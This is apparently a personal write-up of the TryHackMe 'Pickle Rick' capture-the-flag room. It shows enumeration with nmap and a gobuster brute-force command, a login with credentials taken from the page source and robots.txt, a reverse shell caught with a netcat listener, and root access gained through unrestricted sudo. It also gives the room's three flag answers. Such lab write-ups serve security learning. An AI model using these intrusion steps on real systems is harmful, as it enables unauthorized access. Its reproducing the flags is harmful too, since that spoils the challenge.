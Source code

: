 ```yaml
---
title: "[THM] Pickle Rick"
author: "Wook Lee"
date: "2024-07-09"
tags: ["TryHackMe"]
---
```


This Rick and Morty-themed challenge requires you to exploit a web server and find three ingredients to help Rick make his potion and transform himself back into a human from a pickle.

Deploy the virtual machine on this task and explore the web application

#### What is the first ingredient that Rick needs?

```
mr. meeseek hair
```

<br>

The first enumeration step I took was to run a nmap scan. In the meanwhile, I browsed the source code of the target website and found the following: `username: R1ckRul3s`, which implies that there's going to be some sort of login webpage within the target website.

![alt text](image.png#center)

Through the nmap scan, I confirmed there's 2 open ports: 1 ssh and 1 http server. The next thing I did was to run a `gobuster` to brute-force against the target URL and to find directories and files using a wordlist. Also I appended `-x` option, this means that Gobuster will test each directory/file name with the given extensions.

`gobuster dir -u http://10.10.243.38 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x php,html,css,txt,db,js,py`

![alt text](image-1.png#center)

<br>

gobuster ouput gave me some useful information. Let's take a look at the `robot.txt` file first. The robot.txt file only contained `Wubbalubbadubdub`, which could be a password for the username we found earlier.

![alt text](image-2.png#center)
<br>

To test my theory, I navigated to `/login.php` url and inputted the username, R1ckRul3s and the password, Wubbalubbadubdub. It turned out they were the correct credentials and the site directed me to `/portal.php`

![alt text](image-3.png#center)

<br>

I typed `ls` command then got the following result. Then I tried `cat Sup3rS3cretPickl3Ingred.txt` but it said "command disabled", so I navigated to /Sup3rS3cretPickl3Ingred.txt and got `mr. meeseek hair`, which turned out to be the first ingredient of the task!
![alt text](image-4.png#center)

![alt text](image-5.png#center)

<br>

#### What is the second ingredient in Rick's potion?

```
1 jerry tear
```

<br>

Since we can execute some of the commands on the target website. I think it's best to try reverse-shell. I visited the `pentest monkey` to refer to their **Reverse Shell Cheat Sheet** for Python reverse shell. Make sure to change the IP address to your own and change the `python` to `python3`.

![alt text](image-7.png#center)

![alt text](image-9.png#center)

<br>
Before running the reverse-shell command, I made sure I'm running the netcat in order to capture the shell.

```shell
┌──(kali㉿kali)-[~/Desktop]
└─$ nc -lvnp 1234
listening on [any] 1234 ...
```

<br>

I was able to caputre the shell after I had executed the python reverse shell command.

```shell
┌──(kali㉿kali)-[~/Desktop]
└─$ nc -lvnp 1234
listening on [any] 1234 ...
connect to [10.6.67.243] from (UNKNOWN) [10.10.242.29] 38160
/bin/sh: 0: can't access tty; job control turned off
$ ls
Sup3rS3cretPickl3Ingred.txt
assets
clue.txt
denied.php
index.html
login.php
portal.php
robots.txt
```

<br>

I remembered there was `clue.txt` file which showed me a hint for the second ingredient.

![alt text](image-6.png)

<br>

I looked around the file system in the shell for a while then I finally found the file named `second ingredients`!

```shell
$ cd home
$ ls
rick
ubuntu
$ cd rick
$ ls
second ingredients
$ ls -la
total 12
drwxrwxrwx 2 root root 4096 Feb 10  2019 .
drwxr-xr-x 4 root root 4096 Feb 10  2019 ..
-rwxrwxrwx 1 root root   13 Feb 10  2019 second ingredients
$ cat "second ingredients"
1 jerry tear
```

<br>

#### What is the last and final ingredient?

```
fleeb juice
```

<br>

After we got the second flag, while still in the shell we captured, I ran `sudo -l` command to see what commands I'm permitted to run using `sudo` and it turned out there was no restriction at all.

```shell
$ sudo -l
Matching Defaults entries for www-data on ip-10-10-242-29:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on ip-10-10-242-29:
    (ALL) NOPASSWD: ALL
```

<br>

Because I knew that I could run any command with sudo, I went straight to run the `sudo bash` command. This command runs a new instance of Bash shell with root privileges. This effectively gives you a root shell. Once I got the root priviliege, the rest was easy. I navigated to the `root` folder and there was the third ingredients inside it.

```shell
proc
root
run
sbin
snap
srv
sys
tmp
usr
var
vmlinuz
vmlinuz.old
cd root
ls
3rd.txt
snap
cat 3rd.txt
3rd ingredients: fleeb juice
```

I got the last ingredients for this task!
